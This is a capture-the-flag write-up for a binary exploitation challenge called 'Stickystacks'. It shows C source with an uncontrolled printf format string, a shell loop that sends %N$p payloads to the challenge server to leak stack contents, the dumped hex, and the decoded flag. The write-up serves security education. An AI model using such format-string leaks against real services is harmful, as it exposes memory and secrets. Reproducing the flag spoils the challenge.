 # Stickystacks
**Category: Binary Exploitation**

This challenge presents a binary that asks for a name, and then prints a message containing the first 6 characters of that name.

```
$ ./stickystacks
Name:
Bobby Tables
Welcome, Bobby
```

The source was provided:

```c
typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}
```

The flag value is put into the struct, and it is never printed.

We can see that we control a 6 byte value that gets sent to `printf`. We can use this to abuse a format string vulnerability to read values on the stack. For example, the `%s` format specifier will leak a string: 

```
$ ./stickystacks
Name: 
%s
Welcome, Welcome,
```

We can leak a bunch of values off the stack at different offsets in a loop until we find values that look suspicious.

```sh
$ for i in {0..50}; do echo $i; echo %$i\$p | nc shell.actf.co 21820; done
...
33
Name: 
Welcome, 0x6c65777b66746361
34
Name: 
Welcome, 0x61625f6d27695f6c
35
Name: 
Welcome, 0x6c625f6e695f6b63
36
Name: 
Welcome, 0x5f7365795f6b6361
37
Name: 
Welcome, 0x6b6361625f6d2769
38
Name: 
Welcome, 0x5f6568745f6e695f
39
Name: 
Welcome, 0x65625f6b63617473
40
Name: 
Welcome, 0x3439323135623963
41
Name: 
Welcome, 0x3438363737646165
42
Name: 
Welcome, 0xa7d333935663161
...
```

I stitched the values together in CyberChef. Note that the "a" in the hex at the 42nd iteration had to be trimmed out to make the value a valid string.

![cyberchef](cyberchef.png)

`actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`
